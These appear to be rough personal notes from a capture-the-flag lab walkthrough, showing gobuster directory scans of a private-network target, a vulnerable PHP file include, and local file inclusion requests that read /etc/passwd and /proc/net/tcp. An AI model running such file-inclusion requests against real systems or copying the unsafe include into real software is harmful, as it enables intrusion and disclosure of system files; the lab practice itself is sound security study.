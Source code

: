 ```
/blog/                (Status: 403) [Size: 169]
/cgi-data/            (Status: 403) [Size: 169]
```

gobuster dir  -u http://192.168.0.63:8000  -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 20

the same without slash
```
/blog                 (Status: 301) [Size: 185] [--> http://192.168.0.63:8000/blog/]
/cgi-data             (Status: 301) [Size: 185] [--> http://192.168.0.63:8000/cgi-data/]

```

as i told, have problems, i have no cgi data

This is what i cannot see, and its very interesting, and easy to do it 
![[whaticantsee.png]]

gobuster dir  -u http://192.168.0.63:8088  -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 20

This is the other result
```
/cgi-bin              (Status: 301) [Size: 1260] [--> http://192.168.0.63:8088/cgi-bin/]
/img                  (Status: 301) [Size: 1260] [--> http://192.168.0.63:8088/img/]
/docs                 (Status: 301) [Size: 1260] [--> http://192.168.0.63:8088/docs/]
/css                  (Status: 301) [Size: 1260] [--> http://192.168.0.63:8088/css/]
/protected            (Status: 301) [Size: 1260] [--> http://192.168.0.63:8088/protected/]
/blocked              (Status: 301) [Size: 1260] [--> http://192.168.0.63:8088/blocked/]


```

i fixed it , now i see the 80 port open


this code permtes us to add the parameter file, and get some resource
```
</?php include $_GET['file']; */
```
?file=/etc/passwd
```
view-source:http://192.168.0.64/cgi-data/getImage.php?file=/etc/passwd
```

si no tuvieramos esa variable , intentariamos "fuzzarla" con algna herramienta y despues tambien fuzzar los parametros a  buscar

This two ussers have a bash, so they are users of the system
```
root:x:0:0:root:/root:/bin/bash
durian:x:1000:1000:durian,,,:/home/durian:/bin/bash
```

view-source:http://192.168.0.64/cgi-data/getImage.php?file=/proc/net/tcp

this is an enumeration of procces net tcp
